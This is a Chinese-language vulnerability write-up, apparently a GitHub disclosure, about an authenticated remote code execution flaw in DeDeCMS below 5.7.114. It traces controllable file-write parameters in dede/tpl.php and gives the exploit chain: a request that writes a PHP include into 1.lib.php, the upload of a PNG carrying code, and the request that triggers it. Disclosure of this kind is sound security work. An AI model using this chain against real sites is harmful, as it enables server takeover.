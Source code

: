 # ***\*漏洞情况\***

上海卓卓网络科技有限公司，后台存在RCE漏洞，攻击者可以利用此漏洞获取服务器权限

# ***\*影响版本\***

此漏洞涉及版本为DeDeCMS<5.7.114版本

# ***\*审计过程\****

在官网下载好源码使用

![image](https://github.com/tianqing191/test-/assets/114899974/4d1cebf1-71ef-4618-903e-34fe83047633)

## *漏洞涉及文件*

 dede/tpl.php

![image](https://github.com/tianqing191/test-/assets/114899974/c1c6ebb4-ca78-4f27-a052-5df93bb1b48e)



在代码当中可以看到fwrite写入函数，其中第一个变量fp指定了一个文件为一个变量为truefile 其中truefile 是可控的

![image](https://github.com/tianqing191/test-/assets/114899974/f8528c93-c639-48a2-8caa-35ace4a947b6)


![image](https://github.com/tianqing191/test-/assets/114899974/08810b68-20ff-4101-a870-af31bba0fe49)


 并且 content 变量也是可控的

![image](https://github.com/tianqing191/test-/assets/114899974/fecd2f63-fee6-424a-a63f-17b702f26d76)


到这里大致的思路就明白了，使用fwrite函数进行了文件写入，写入文件为

1.lib.php,方便我们写入一句话，然后写入内容为content 变量，这

个变量我们可控，开始尝试写入一下

## **漏洞复现**

登陆后台

![image](https://github.com/tianqing191/test-/assets/114899974/df20e122-46a7-46fa-b8a8-dc25234b9268)


 

url/dede/tpl.php?filename=1.lib.php&action=savetagfile&content=<?=include_once("../../1.png");&token=[你的token]

 

![image](https://github.com/tianqing191/test-/assets/114899974/ca1b03c3-c1ae-4cb1-bad3-ff5834733a61)


写入成功文件名为1.lib.php 

![image](https://github.com/tianqing191/test-/assets/114899974/d493b81c-1a43-4e12-a3b3-40151e65de24)


写入的内容为

![image](https://github.com/tianqing191/test-/assets/114899974/a952c523-7d6e-452c-a76f-a6ebffc5892f)


其中变量content 存在过滤一些危险函数

![image](https://github.com/tianqing191/test-/assets/114899974/0c687e2c-c1f9-494a-ae8d-e7dcd5c76d4d)


通过写入php包含的函数，在进行上传一个带有恶意代码的png图片进行RCE

上传1.png图片 url/dede/file_manage_main.php

![image](https://github.com/tianqing191/test-/assets/114899974/ff2d8bc1-3d96-42d2-ad73-defdcf64f817)

访问1.lib.php文件 url/include/taglib/1.lib.php

![image](https://github.com/tianqing191/test-/assets/114899974/c8244720-f43f-4910-bfc3-e479df4f89e0)


成功RCE

 

 
